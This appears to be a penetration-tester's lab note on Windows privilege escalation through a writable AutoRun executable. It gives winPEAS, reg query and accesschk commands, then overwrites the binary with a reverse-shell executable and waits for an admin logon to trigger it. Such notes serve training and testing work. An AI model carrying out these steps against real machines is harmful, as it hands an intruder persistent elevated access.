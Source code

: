 1. Use winPEAS to check for writable AutoRun executables:

```batch - windows
.\winPEASx64.exe quiet applicationsinfo
```

2. Alternatively, we could manually enumerate the AutoRun executables:

```batch - windows
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```batch - windows
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


3. >The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

```batch - windows
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

4. Copy our reverse shell executable to overwrite the AutoRun executable:

[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
copy /Y C:\PrivEsc\reverse.exe "C:\Program files\AutorunProgram\program.exe"
```

5. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

![[___.Misc Commands#Restart host]]